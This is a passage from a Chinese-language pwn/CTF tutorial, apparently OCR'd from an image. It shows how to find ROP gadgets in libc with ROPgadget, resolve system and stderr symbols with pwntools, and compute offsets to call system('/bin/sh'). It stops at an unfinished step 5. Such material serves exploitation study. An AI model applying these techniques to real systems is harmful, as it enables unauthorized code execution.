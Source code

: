 

考虑我们需要的两个gadget

gadget1

```
pop $rdi; ret
```

使用ROPgadget得到还未重定向的libc中gadget1的地址

```
./ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
```



gadget2

```
ret
```

使用ROPgadget得到还未重定向的libc中gadget2的地址

```
./ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "ret"
```



**使用pwn.ELF** 

```
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
system_addr=libc.symbols["system"]
stderr_addr=libc.symbols["_IO_2_1_stderr_"]
```

使用pwn.ELF可以得到symbol table中函数的地址，由此可以得到还未重定向的libc中函数的地址



得到还未重定向的libc中 `system()` 的地址

```
libc.symbols["system"]
```



得到还未重定向的libc中 `stderr` 的地址

`stderr` 实际是一个宏定义，它指向的实际上是 `_IO_2_1_stderr_()` （ 如何得知其指向的是为 `IO_2_1_stderr_()` ? 当然是问别人啦（（（ ）

```
libc.symbols["_IO_2_1_stderr_"]
```



由此我们可以得知 `stderr,system(),"/bin/sh",gadget1,gadget2` 之间的相对地址(由所有它们的未重定向的地址得知)，又由我们之前已经得知 `stderr` 的绝对地址，由此我们可以得知上述我们需要的所有地址



**step5.利用错误进行设计，达成最终调用system("/bin/sh")** 
